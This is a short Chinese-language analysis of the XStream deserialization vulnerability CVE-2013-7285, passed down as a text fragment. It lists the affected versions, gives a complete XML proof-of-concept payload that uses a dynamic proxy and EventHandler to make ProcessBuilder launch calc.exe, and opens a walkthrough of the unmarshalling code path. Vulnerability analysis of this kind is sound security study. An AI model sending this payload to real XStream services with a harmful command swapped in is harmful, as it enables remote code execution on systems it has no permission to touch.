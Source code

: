### CVE-2013-7285

#### 影响范围

1.4.5，1.4.6，1.4.10

Payload:

```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```



# 流程分析

首先来到`AbstractTreeMarshallingStrategy`类,该类中有两个核心方法

> marshal:编组对象图
>
> unarshal:解组对象图

![image-20211026143917849](Xstream反序列化/image-20211026143917849.png)

这里通过start()方法进行解组。
